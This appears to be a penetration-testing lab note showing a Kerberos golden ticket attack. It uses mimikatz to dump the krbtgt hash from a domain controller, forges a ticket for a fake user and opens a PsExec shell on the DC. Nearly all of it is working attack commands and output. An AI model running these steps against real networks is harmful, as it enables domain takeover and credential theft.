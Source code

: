 ### Creating a golden ticket to psexec on domain controller

Go into the domain controller and grab the NTLM hash

```powershell
# On the domain controller:
C:\Tools>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May 13 2019 01:35:04
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : fc274a94b36874d2560a7bd332604fab
```

Now on the workstation:

Find the SID first using `whoami /user` without the last part after the `-`.
```powershell
C:\Tools>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May 13 2019 01:35:04
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /krbtgt:fc274a94b36874d2560a7bd332604fab /ptt
```

Now we can launch a command prompt on the domain controller using `psexec` like so:

```sh
C:\Windows\system32>cd C:\Tools\active_directory

C:\Tools\active_directory>PsExec.exe \\dc01 cmd.exe

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
corp\fakeuser
```